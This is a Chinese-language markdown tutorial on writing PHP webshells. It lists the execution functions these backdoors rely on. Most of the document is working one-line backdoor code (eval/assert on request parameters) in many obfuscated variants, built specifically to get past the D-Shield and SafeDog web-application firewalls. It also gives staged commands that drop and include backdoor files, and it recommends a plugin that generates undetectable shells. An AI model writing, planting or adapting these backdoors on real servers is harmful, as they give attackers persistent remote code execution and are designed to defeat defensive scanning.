





#  PHPweb渗透中的webshell编写

<audio src="./music/1.mp3" controls ></audio>
- 👴 wanna love you ！ 
<<[Is This Love (Original Mix)](http://music.163.com/song?id=402073828&userid=262256866)>> 
专辑：Is This Love (Original Mix)
歌手：Vicetone / Bob Marley

- 目录
  - Webshell介绍:
    - [啥是webshell](#啥是webshell)
    - [PHP的命令注入](#PHP的命令注入)
    - [常用函数的区别](#代码执行与加密函数和系统命令执行函数的区别)

  - 常见函数和变形：
    - [木马中的常见传值或绕过函数](#木马中的常见传值或绕过函数)
    - [常见变形](#最常见一句话马的多种变形)
  - Bypass D盾和安全狗分享:
    - [BypassD盾](#BypassD盾)
    - [一键免杀工具推荐](#webshell_venom)
## 啥是webshell

  简单来说，webshell就是一个以网业形式存在的shell，或者叫后门，小马。
  虽然一句话木马为了绕过waf的检测，出现了很多的变形，但是本质是不变的：木马执行了我们发送的命令。

  攻击者使用的恶意脚本，它的用途主要是在攻击后的Web应用程序上建立持久性的后门。webshell本身不能攻击或者利用远程漏洞，所以说它总是攻击 的第二阶段，这个阶段我们经常称为`post-exploitation`(国外渗透测试标准里面的一个阶段)。

## PHP的命令注入

PHP中可以使用某些[特殊函数](PHP中的特殊函数.md)来执行外部的代码或函数.

可以理解为，应用PHP语言中一些具有命令执行功能的函数时,将外部输入的代码执行为php可执行代码或系统命令，也就是俗称的 `webshell` 。在服务器不进行权限设置的时候。权限仅仅是 网页启动者的权限Linux 中为apache权限，权限很低，在windows中是，apache启动者的权限。 

例如:
`<?php echo systean('whoami');?>`

> 那么最常见的一句话木马` <?php eval($_POST[1])?> `为什么不直接用 `system()`呢？


## 代码执行与加密函数和系统命令执行函数的区别


|类型|函数|含义|
|---|---|---|
|执行系统命令|system, passthru, shell_exec, exec, popen, proc_open|直接对系统执行命令|
|代码执行与加密|eval, assert, call_user_func,base64_decode, gzinflate, gzuncompress, gzdecode, str_rot13|将代码作为PHP命令执行|

`$_POST[' ']` 接收我们传递的数据，并把接收的数据传递给一句话木马中执行命令的函数，进而执行命令，`system()`是对系统进行命令操作，而`eval()`函数是对PHP网页进行操作。 
所以可以组合为:
```php
<?php 
eval(system($_POST[1]));
```


**代码执行与加密函数**

`eval()`和 `assert()`的区别:

|函数|含义|举例|区别|
|---|---|---|---|
|eval()|把字符串作为PHP代码执行|```<?php eval(@urldecode($_GET['1']));```| `eval` 是一个 `语言构造器` 而不是一个函数|
|assert()|检查一个`断言`是否为 FALSE。如果 `断言`是字符串，它将会被 assert() 当做 PHP 代码来执行|```<?php assert(@urldecode($_GET['1']));```|`assert` 是一个 `函数`|


**什么是语言构造器、什么是函数。**

- 语言结构：就是PHP语言的关键词，语言语法的一部分；它不可以被用户定义或者添加到语言扩展或者库中；它可以有也可以没有变量和返回值。 

- 函数：    由代码块组成的，可以复用。

打个比方 语言构造类似于C/C++ 直接与底层语言调用，函数类似于JAVA要过一层解析器。

举例：
```php
<?php
$a = "eval";
$a(@$_GET['a']);  //执行失败

eval(@$_GET['a']); //执行成功
?>
```
> 因为eval是一个语言构造器而不是一个函数，不能被可变函数调用。也无法用php.ini中的disable_functions禁止掉。

可见`eval`这么危险，肯定是被特 别 关 注 的。但是代表见到就杀，其实在网页中也有很多常见的例子，例如和数据库字段中和日后计算进行的代码存储方面很有用。举个[eval()bypassD盾的栗子]()

 如果实在不行可以找一些代替函数或者 奇 技 淫 巧 绕过。 

## 木马中的常见传值或绕过函数

|函数|含义|举例|木马示例|
|---|---|---|---|
|end()|将数组的内部指针指向最后一个值|`<?php $a=array(1,2,3,4,5,6,7);echo end($a);?>`|`<?php eval(end($_REQUEST)); ?>`|
|$_REQUEST|默认情况下包含了 `$_GET`，`$_POST` 和 `$_COOKIE` 的数组，默认情况下用于代替传统get和post|`$_REQUEST['a']/$_REQUEST`|`$_REQUEST['shell']`|
|define()| 定义一个常量|`define ($a,$b,$c)`|`<?php define("shell","$_REQUEST[shell]")eval(shell);?>`|
|extract()|从数组中将变量导入到当前的符号表|`extract($var_array, EXTR_PREFIX_SAME, "wddx");`|`<?php  $a=1;$b=$_POST;extract($b);print_r(`$a`)?>`|
||||


**Tips：**
那我们就去特殊函数中找找函数吧，最常见的代替`eval()`的函数有`assert()`;正当我满怀期待的构造了一波:
```php
<?php 
$a = "assert";
$a(@$_POST['shell']); 
//assert(@$_POST['shell'])
?>
```
发现👴上当了，马无法执行并且报了个`不能使用字符串参数动态调用assert()`的错，👴傻了。
查了一下发现。


在php 7.2的版本说明中,对`assert()`函数传入字符串参数已经被禁用。 而这个禁用特性经过测试是从 php 7.1 版本开始的。所以现在很多马都失效了其实就是这个原因，以后渗透前先看看版本再上马。

所以如果想要执行就必须要通过以下方式执行
```php
<?php
assert($_GET['shell']);
?>
```
那和没变不还是一样吗?php你搞我。

## 最常见一句话马的多种变形

> 以下挂马均为 <7.1

**动态字符串绕过型**
```php
<?php
$a = "assert";
$a(@$_GET['shell']);
?>
```

**双$$符号绕过**
```php
<?php
$bb="assert";
$a='bb';
$$a($_POST['shell']);
?>
```
`$$a`为一个变量，`$a`的值为 bb 则 `$$a = $($a)=$bb` 等同于 `$bb` 

**Base64绕过**

```php
<?php
$a='YXN';
$b='zZX';
$c='J0';
$D=$a.$b.$c;
$x=base64_decode($D);
$x($_GET['a']);
?>
```
`YXNzZXJ0` 是 `assert` 的base64编码，base64_decode()是base64解密函数

---

## BypassD盾

少壮不努力，老大遇阿D

拿`eval()`举例
**当eval()加一个变量时:**

威胁等级为4，当场被🔪。


**当eval()加一个变量并同时包含一个页面时:**


发现D盾检测到威胁降低，因为D盾考虑到可能1.php中有业务需要使用，勉强白给。

**当eval()加一个常量时**

发现D盾对常量的检测就不是很敏感了，之给了个1级，表示可能存在威胁。


**当eval()加一个常量并同时包含一个页面时**

D盾认为，可能是包含了页面中的业务，所以直接把`eval()`PASS掉了。成功绕过。

因为D盾语句不会匹配到`system()`函数中的 cmd 命令，可以先写一个连接语句后包含进来，即可完成连接。
```php
<?php
//pass=shell
system('echo ^<?php define("shell","$_REQUEST[shell]"); ?^>>1.php');
include('1.php');eval(shell);
?>
```


以下默认没有版本限制

**创建文件后包含绕过型**
>使用文件包含尝试绕过检测 只可以在windows环境中使用，Linux会权限不足无法创建文件

```php
<?php
system('echo ^<?php define("shell","$_REQUEST[shell]"); ?^>>1.php');
include('1.php');eval(shell);
?>
```
> Windows cmd  ^ 转义符

`echo "<Hellow>" >1.txt"写成 echo ^<Hello^> > 1.txt`  让`<>`失效。


---

**parse_str 变量**
```php
<?php
$a=1;
$b="a=".@$_GET['a'];
parse_str($b);
print_r(`$a`)
?>
```


---

**__destruct 析构函数(魔术方法)**
```php

<?php 
class User
{
  public $name = '';
 
  function __destruct(){
    eval("$this->name");
  }
}
 
$user = new User;
$user->name = ''.$_POST['shell'];
?>
```
> 可使用蚁剑连接


---

**方法绕过**
```php
<?php function fun(){return $_POST;}eval(fun()['shell']);?>
```
其实就是构造了 `eval($_POST['shell']);`


---

**函数拼接绕过**
```php
<?php
function fun(){
    return 'al($_';
}
eval('@ev'.fun().'POST[shell]);');
?>
```


```php
<?php
function a()
{
    return 1>0? @$_POST['shell']:0;
}

eval(a());
?>
```


```php
<?php
sprintf("123");
$a=@$_GET['a'];
define("Test", "$a",true);
assert(TesT);
?>
```


---

**利用get获取数组键名,版本小于7.1**

```php
<?php
//利用key获取数组键名，在木马URL后加上 ?assert=1，密码cmd
$lang = (string)key($_GET);  
$lang($_POST['cmd']);
?>

```



---


---

### 过D，但需要多次操作才可蚁剑连接

以下马都需要在挂上后执行二次操作，如：
```php
?shell=system('echo ^<?php define("shell","$_REQUEST[shell]"); ?^>>1.php');
?shell=system('echo ^<?php include("1.php");eval(shell); ?^>>2.php');
```
然后使用蚁剑去连接`2.PHP`。


**extract 变量**

```php
<?php  
$a=1;
$b=$_POST;
extract($b);
print_r(`$a`)
?>
```


* 注意该马无法直接使用蚁剑连接。


**array_map函数过D盾 需PHP版本<7.1**

```php
<?php
function user()
{
$a123 =  chr(97).chr(115).chr(115).chr(101).chr(114).chr(116);
return ''.$a123;
}
$a123 = user();
$x123 =array($_GET['shell']);
array_map($a123,$a123 = $x123 );
?>

```
* 注意该马无法直接使用蚁剑连接。


---

**call_user_func_array函数 需PHP版本<7.1**
```php
<?php
 
function a(){
     return 'assert';
}
$a=a();
$aa = array($_GET['shell']);
call_user_func_array($a,$a=$aa);
?>
```
* 注意该马无法直接使用蚁剑连接。



---

**可直接执行CMD命令**
```php
<?php
$cmd =base64_decode('dmVy='); // ver
echo `$cmd`. `$_GET[shell]`;  //shell_exec,执行系统命令
//或
$var = `net user`;
echo "$var";
?>

```


**变量覆盖**
```php
<?php

    define($_GET[a], $_GET[b]);

    eval(A);

    ?>
```

先外部传入a=A 定义A变量，再通过传入b=phpinfo();给A变量赋值，即可完成利用，因此这就要求安全人员尽可能尽可能覆盖所有的变量传播方式，同时这也是一个积累与完善的过程。


**filter_input污染源绕过**

```php
<?php

$a = filter_input(INPUT_GET,'shell');

eval($a);

?>
```

filter_input也可以接受外部参数，如下例中通过传入参数`shell`即可执行代码。




---

**过安全狗 且版本可>7.0**

**通过常量 **
```php
<?php
define("shell","$_REQUEST[shell]"); 
eval(shell);
?>
```

**通过函数强行分割**
```php
<?php
function a($a){
    return $a;}
eval (a($_REQUEST)['shell']);
?>
```

**使用end()函数来代替**
```php
<?php eval(end($_REQUEST)); ?>
```

**函数组合**
```php
<?php
$value=$key = "a";
foreach($_POST as $key=>$value){
    assert($value);
}
```


---

## webshell_venom 

- [蚁剑免杀Shell一键生成插件](https://github.com/AntSword-Store/as_webshell_venom)
(给蚁剑配置代理后在插件中心下载，点击启用后即可,实测BypassD盾和狗，设置连接数据全部base64_bypass即可绕过云锁。)

1. 给蚁剑配置代理


2. 在插件市场中添加插件




下载后重启蚁剑即可。

3. 在设置中添加插件并启动


4. 启动插件，先选中一个webshell 可以先自行创建一个 点击webshell后点击插件。


5. 创建免杀webshell,连接即可。


参考和分享

- [过D盾webshell分享](https://blog.csdn.net/Fly_hps/article/details/89011688)
- [过D盾安全狗PHP一句话](https://www.chabug.org/tools/655.html)
- [对于php免杀webshell的一些总结](https://xz.aliyun.com/t/5152)
